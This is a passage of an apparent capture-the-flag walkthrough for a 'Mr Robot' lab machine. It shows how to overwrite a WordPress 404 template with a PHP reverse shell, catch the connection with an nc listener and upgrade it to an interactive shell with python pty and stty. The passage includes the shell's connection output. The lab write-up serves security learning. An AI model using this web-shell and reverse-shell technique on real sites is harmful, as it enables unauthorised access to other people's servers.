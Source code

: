 A quick look around and we find we can edit a template. Let's get a reverse shell uploaded so we can connect. First grab a php one from Kali:

```text
root@kali:~/thm/mrrobot# ls /usr/share/webshells/php
findsocket  php-backdoor.php  php-reverse-shell.php  qsd-php-backdoor.php  simple-backdoor.php
```

The php-reverse-shell.php is pre-installed on Kali. It's just the same as the version on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Copy the contents and paste in to the 404 template, overwriting all that was in there before:

![edit-theme](/assets/images/2020-05-26-21-47-43.png)

Save the template, start NC listening on your attack machine, then visit the 404 page to get the shell to start.

Now we are connected, so first we upgrade to proper shell:

```text
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.23.78] 49546
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 21:30:24 up 32 min,  0 users,  load average: 0.00, 0.12, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/thm/mrrobot# stty raw -echo
daemon@linux:/$ export TERM=screen
```

## Grabbing Key 2
